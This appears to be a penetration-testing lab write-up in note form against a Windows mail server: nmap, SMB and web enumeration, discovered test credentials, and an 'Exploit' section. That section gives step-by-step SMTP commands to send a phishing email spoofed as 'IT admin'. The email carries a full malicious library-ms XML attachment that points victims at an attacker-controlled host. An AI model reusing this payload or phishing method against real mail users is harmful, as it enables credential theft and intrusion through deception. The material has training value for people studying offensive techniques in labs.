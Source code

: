 `192.168.229.199`
# nmap
```
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: ADMIN, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: completed IMAP4 QUOTA NAMESPACE CHILDREN IDLE IMAP4rev1 OK RIGHTS=texkA0001 SORT CAPABILITY ACL
445/tcp open  microsoft-ds?
587/tcp open  smtp          hMailServer smtpd
| smtp-commands: ADMIN, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
```

# smb
#smb_enum #smb
## smbclient
#smbclient 
```sh
$ smbclient -L //192.168.229.199                              
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```
## nbtscan
#nbtscan 
```
$ nbtscan 192.168.229.199
Doing NBT name scan for addresses from 192.168.191.199

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
```
## smbmap
#smbmap
```
$ smbmap -H 192.168.229.199  

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)         
```

## net view
#windows #smb_enum #smb #enum 
```
net view \\<ip> /all
```
# ffuf
```
$ ffuf -u "http://192.168.229.199/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .pdf,.txt

                        [Status: 200, Size: 705, Words: 27, Lines: 33, Duration: 510ms]
info.pdf                [Status: 200, Size: 676858, Words: 1, Lines: 1, Duration: 274ms]
```

# http
```
test@supermagicorg.com
user: test
pass: test

first.last@supermagicorg.com
```
![[Pasted image 20231229111353.png]]

# wfuzz
#wfuzz #subdomain #subdomain_enum #enum
```
$ wfuzz -c -f sub-fighter -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://supermagicorg.com' -H "HOST: FUZZ.<domain_name>" --hw <wordcount_to_exclude>

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================


Total time: 155.9581
Processed Requests: 4989
Filtered Requests: 4989
Requests/sec.: 31.98934
```

# smtp
#smtp #telnet 
## reference
[blog post](https://dustyhoppe.wordpress.com/2012/05/22/sending-email-attachments-using-smtp-commands-and-telnet/)
[linux email clients](https://www.tecmint.com/linux-desktop-email-clients/)

interact with smtp server:
**telnet**: `telnet supermagicorg.com 25`
**netcat**: `nc supermagicorg.com 25 -C`
	- `-C` sets the newline to be `\r\n`

user: `$ echo -n 'test@supermagicorg.com' | base64`
	- `dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==`
pass: `$ echo -n 'test' | base64`
	- `dGVzdA==`

## Exploit
Connect to SMTP server `nc supermagicorg.com 25 -C`
paste the following commands to send an email with an xml attachment named `config.library-ms`
```
ehlo supermagicorg.com
auth login
dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
dGVzdA==
MAIL FROM: test@supermagicorg.com
RCPT TO: test@supermagicorg.com
DATA
Subject: pending configuration
From: IT admin
Content-Type: application/xml;name="will-not-appear-in-email"
Content-Disposition: attachment;filename="config.library-ms"

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>8</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
              <url>http://192.168.45.216</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>

.

```


###  SMTP commands and responses:
```smtp
help
211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
#################################################
ehlo supermagicorg.com
250-ADMIN
250-SIZE 20480000
250-AUTH LOGIN
250 HELP
#################################################
auth login
334 VXNlcm5hbWU6
dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
334 UGFzc3dvcmQ6
dGVzdA==
235 authenticated.
#################################################
MAIL FROM: test@supermagicorg.com
RCPT TO: test@supermagicorg.com
DATA
Subject: pending configuration
Content-Type: application/xml;name="config.library-ms"
Content-Disposition: attachment;filename="config.library-ms"

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>8</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
              <url>http://192.168.45.216</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>

.

```
